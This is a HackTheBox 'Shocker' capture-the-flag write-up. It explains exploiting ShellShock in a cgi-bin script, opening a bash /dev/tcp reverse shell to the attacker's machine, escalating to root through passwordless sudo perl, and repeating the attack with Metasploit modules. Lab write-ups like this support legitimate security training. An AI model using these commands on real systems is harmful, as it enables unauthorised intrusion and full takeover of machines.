 ```yaml
---
layout: post
title: "Shocker"
date: 2020-09-20 13:30:00 -0600
categories: HTB OSCP
tags: HTB Shocker Linux ShellShock
---
```


## Enumeration

![site](/assets/images/shocker/site.png)

Same as every machine we are going to start with our autorecon scan. This revealed only 2 open ports, port 80 and port 2222. Nikto and GoBuster didn't show much on their scans other than a `cgi-bin` folder so I decided to throw dirbuster at it with php and sh for extensions to see if there are scripts buried there.

![dibuster](/assets/images/shocker/dirbuster.png)

This returned a `user.sh` script in the cgi-bin folder, not having much to go on and knowing that machine names are sometimes a hint for machines I decided to poke at this script and an older vulnerability know as [ShellShock](<https://en.wikipedia.org/wiki/Shellshock_(software_bug)>). This took advantage of advantage of a bug in bash to execute arbitrary commands. In my digging I found a tool for finding ShellShock exploitable scripts with the name [shocker](https://github.com/nccgroup/shocker). I was able to use this to exploit our machine with the following command `python shocker.py -H 10.10.10.56 --command /bin/ls -c /cgi-bin/user.sh`

![shocker](/assets/images/shocker/shocker.png)

Now that we have command execution on the machine we can try to pop a shell. [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has my favorite reverse shell cheat sheet. I decided to go the simple route and try a basic bash reverse shell, we can attempt to get a shell with `/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1` This ended up getting us our shell as the user Shelly

## Elevate

Now that we have a shell I generally default to a `sudo -l` as my first enumeration step and in this case we found some really low hanging fruit for escalation. We can see this user can sudo perl without a password.

![sudo](/assets/images/shocker/user.png)

Referencing [GTFOBINS](https://gtfobins.github.io/) we can see a fairly simple perl command to get a shell `sudo perl -e 'exec "/bin/sh";'`. Running this gives us our root shell and we can grab our flags and get out.

![got root?](/assets/images/shocker/got_root.png)

## Metasploit

I wanted to try to a metasploit module for this one to see if I could get it to work the "easy" way as well. We can start off by searching for a metasploit module for shellshock. There is a auxiliary module for scanning so I decided to give that a go first, start off by doing a `use auxiliary/scanner/http/apache_mod_cgi_bash_env`. We need to set the RHOSTS and TARGETURI values here.

![scanner](/assets/images/shocker/aux.png)

We want to use `exploit/multi/http/apache_mod_cgi_bash_env_exec`. For this to work we need to set basically the same payloads as before, RHOSTS and TARGETURI. Also make sure you have the right LHOST set, it usually defaults to your primary adapter. You can set it to your VPN tunnel with `set LHOST tun0`. Once we have our options set we can fire off the exploit and catch our shell.

![meterpreter](/assets/images/shocker/got_root_ms.png)
